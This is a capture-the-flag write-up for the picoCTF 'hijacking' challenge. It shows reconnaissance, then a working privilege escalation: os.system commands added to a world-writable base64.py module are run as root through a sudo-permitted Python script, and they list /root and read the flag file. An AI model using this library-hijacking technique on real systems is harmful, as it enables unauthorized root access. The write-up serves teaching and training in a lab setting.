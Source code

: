 # hijacking #
 
## Overview ##
 
200 points
 
Category: [Binary Exploitation](../)
 
Tags : `#python #privilegeescalation #libraryhijack`
 
## Description ##
 
Getting root access can allow you to read the flag. Luckily there is a python file that you might like to play with.
Through Social engineering, we've got the credentials to use on the server. SSH is running on the server.
 
## Approach ##
 
Listing the contents of the home folder on the challenge instance : 

    drwxr-xr-x 1 picoctf picoctf   20 Mar 27 06:35 .
    drwxr-xr-x 1 root    root      21 Mar 16 02:08 ..
    -rw-r--r-- 1 picoctf picoctf  220 Feb 25  2020 .bash_logout
    -rw-r--r-- 1 picoctf picoctf 3771 Feb 25  2020 .bashrc
    drwx------ 2 picoctf picoctf   34 Mar 27 06:35 .cache
    -rw-r--r-- 1 picoctf picoctf  807 Feb 25  2020 .profile
    -rw-r--r-- 1 root    root     375 Mar 16 01:30 .server.py

The hidden `.server.py` python script is python file of interest referred to. Note this file is owned by `root` and permissions do not allow for editing. There is no typical `flag.txt` file or similar in sight.

The contents of the `.server.py` python script is as below, with nothing overly nefarious looking within :

    import base64
    import os
    import socket
    ip = 'picoctf.org'
    response = os.system("ping -c 1 " + ip)
    #saving ping details to a variable
    host_info = socket.gethostbyaddr(ip) 
    #getting IP from a domaine
    host_info_to_str = str(host_info[2])
    host_info = base64.b64encode(host_info_to_str.encode('ascii'))
    print("Hello, this is a part of information gathering",'Host: ', host_info) 

 Executing the python script yields :

    picoctf@challenge:~$ python3 .server.py
    sh: 1: ping: not found
    Traceback (most recent call last):
      File ".server.py", line 7, in <module>
        host_info = socket.gethostbyaddr(ip) 
    socket.gaierror: [Errno -5] No address associated with hostname

Initially I spent a long time trying to construct a fake `ping` command to take place of the missing binary, but without much success so I started looking more closely at the python modules imported and the potential for a hijacking.

First step was to find the location of the modules in use :

    picoctf@challenge:~$ python3
    Python 3.8.10 (default, Nov 14 2022, 12:59:47) 
    [GCC 9.4.0] on linux
    Type "help", "copyright", "credits" or "license" for more information.
    >>> import sys
    >>> print(sys.path)
    ['', '/usr/lib/python38.zip', '/usr/lib/python3.8', '/usr/lib/python3.8/lib-dynload', '/usr/local/lib/python3.8/dist-packages', '/usr/lib/python3/dist-packages']
    >>> quit()

Looking at the permissions of the `base64` module within `/usr/lib/python3.8` we have full read-write-execute access.

    picoctf@challenge:~$ ls -al /usr/lib/python3.8
    -rwxrwxrwx 1 root root  20382 Nov 14 12:59 base64.py

So we could modify the imported `base64` module with our own code, but what held me up next was attempting to facilitate the execution of the `.server.py` script to the `base64.b64encode()` function, where I would put all my code. I looked into attempting to adding hosts to try and resolve the host information and allow execution to continue beyond the `socket.gethostbyadd(ip)` call.

But then I realised that all code within the imported module is executed upon import, I didn't have to wait for the use of `base64.b64encode()` function, I could add my code to the top of the `base64` module and it would get executed on import.

This left the remaining piece of the puzzle, how to escalate privileges to be able to run as `root`. So I checked what commands could be run via `sudo` :

    picoctf@challenge:~$ sudo -l
    Matching Defaults entries for picoctf on challenge:
      env_reset, mail_badpass,
      secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User picoctf may run the following commands on challenge:
      (ALL) /usr/bin/vi
      (root) NOPASSWD: /usr/bin/python3 /home/picoctf/.server.py

Notice our `.server.py` script can be run as via sudo without password.

 
.. prototyping and exploration, confirming privilege escalation and finding flag..
 
## Solution ##
 
The solution below includes my prototyping, proof of concept and exploration to confirm privelige escalation and to assist in finding the flag, hence is not a "minimal" solution, but is presented as was used during the event.

The following lines were added to the top of `/lib/python3.8/base64.py` :

    import os
    print('Hello World!')
    os.system('whoami')
    os.system('ls -al /root > /home/picoctf/r.txt')
    os.system('cat /root/.flag.txt')

Now running the `.server.py` script with the modified `base64` import module yields the following output (note: actual flag value has been redacted) :

    $ sudo python3 /home/picoctf/.server.py
    Hello World!
    root
    picoCTF{.......<redacted>...............}
    sh: 1: ping: not found
    Traceback (most recent call last):
      File "/home/picoctf/.server.py", line 7, in <module>
        host_info = socket.gethostbyaddr(ip) 
    socket.gaierror: [Errno -5] No address associated with hostname